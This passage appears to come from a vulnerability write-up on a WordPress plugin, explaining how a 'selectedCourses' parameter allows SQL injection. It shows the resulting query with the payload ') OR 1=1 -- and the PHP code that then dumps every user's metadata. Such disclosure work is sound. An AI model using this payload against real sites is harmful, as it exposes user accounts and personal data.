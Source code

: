 After analyzing the code, it’s clear that the `selectedCourses` parameter undergoes several transformations before being injected into the vulnerable SQL query — but the attacker still controls the `value` key.

**POST request using BurpSuite:**

A single key can be used to easily control the final SQL query.

![Get all user info](request_success.png "Get all user info")

The resulting query looks like this:

```sql
SELECT user_id 
FROM wp_usermeta 
WHERE meta_key IN ('course_abc') OR 1=1 -- _access_from') GROUP BY user_id LIMIT 5 OFFSET 0
```

* `')` escapes the `IN` clause
* `1=1` is always true → returns all user IDs from `wp_usermeta`

The rest of the function retrieves metadata for all returned users:

```php
$formatted_users = array_map(
    function ($user) {
        $user->usermeta = array_map(
            function ($user_data) {
                return reset($user_data);
            },
            get_user_meta($user->ID)
        );
        return $user;
    },
    $contacts
);
```

---